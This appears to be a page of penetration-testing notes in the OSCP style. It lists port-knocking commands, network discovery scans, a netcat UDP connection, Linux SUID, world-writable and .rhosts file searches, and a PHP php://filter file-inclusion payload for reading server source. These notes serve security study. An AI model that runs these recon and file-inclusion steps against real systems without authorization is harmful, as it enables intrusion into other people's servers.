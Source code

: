 ## **Port Knocking :**
```
TCP
knock -v <ip> 4 27391 159

UDP
knock -v <IP> 4 27391 159 -u

TCP & UDP
knock -v <IP> 159:udp 27391:tcp 4:udp
```

# OTHER TECHNIQUES
* **IP DISCOVERY**
```
netdiscover -r 10.0.2.0/24
nmap -sP 10.195.0.0/16 // ping discovery scan
```
*  **connect to a UDP port**
`nc -u localhost 161`

* **WINDOWS**
search for files
`C:\> dir /s /b network-secret.txt`

* **Finding files**
```
Find SUID files ---> find / -perm -4000 -type f 2>/dev/null
Find SUID files owned by root ---> find / -uid 0 -perm -4000 -type f 2>/dev/null   
Find files with GUID bit set ---> find / -perm -2000 -type f 2>/dev/null      
Find world-writable files ---> find / -perm -2 -type f 2>/dev/null         
Find word-writable directories ---> find / -perm -2 -type d 2>/dev/null         
Find rhost config files ---> find /home –name .rhosts -print 2>/dev/null    
list files recursively ---> ls -ahlR /root/      
```
* **PHP**
Read PHP source code with php://filter
```
http://<IP>/?page=upload   // original page
http://<IP>/?page=php://filter/convert.base64-encode/resource=upload
curl http://<IP>/?page=php://filter/convert.base64-encode/resource=upload
 ``` 
>  The result needs to be decoded from Base64





Other recourses can be found here https://github.com/R0B1NL1N/OSCP-note/blob/master/ENUMERATION/enumeration

